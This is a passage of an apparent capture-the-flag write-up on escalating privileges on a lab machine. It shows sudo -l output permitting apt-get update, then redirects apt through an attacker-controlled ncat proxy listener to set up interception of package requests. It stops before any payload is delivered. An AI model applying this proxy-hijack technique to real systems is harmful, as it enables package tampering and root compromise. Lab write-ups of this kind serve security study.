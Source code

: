 #### 7.1. APT can be run with `sudo` permissions by current user
```
www-admin-data@onetwoseven:/dev/shm$ sudo -l
Matching Defaults entries for www-admin-data on onetwoseven:
    env_reset, env_keep+="ftp_proxy http_proxy https_proxy no_proxy", 
    mail_badpass, 
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-admin-data may run the following commands on onetwoseven:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get update, /usr/bin/apt-get upgrade
```

#### 7.2. APT manual
```
www-admin-data@onetwoseven:/dev/shm$ man apt-get
```
Note:
- CLI options such as `-o` and `-c` cannot be specified
- `APT_CONFIG` environmental variable not allowed with `sudo`
- lack of other options to use `APT::Update::Pre-Invoke`

#### 7.3. APT update with proxy
```
www-admin-data@onetwoseven:/dev/shm$ sudo http_proxy='http://10.10.14.11:8181' apt-get update
# ncat -nlvp 8181
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::8181
Ncat: Listening on 0.0.0.0:8181
Ncat: Connection from 10.10.10.133.
Ncat: Connection from 10.10.10.133:46036.
GET http://packages.onetwoseven.htb/devuan/dists/ascii/InRelease HTTP/1.1
Host: packages.onetwoseven.htb
Cache-Control: max-age=0
Accept: text/*
User-Agent: Debian APT-HTTP/1.3 (1.4.9)
```
Note: 
- attacker controls proxy endpoint
- `packages.onetwoseven.htb` points to `10.10.10.133`
- we can MiTM all APT requests to `packages.onetwoseven.htb`
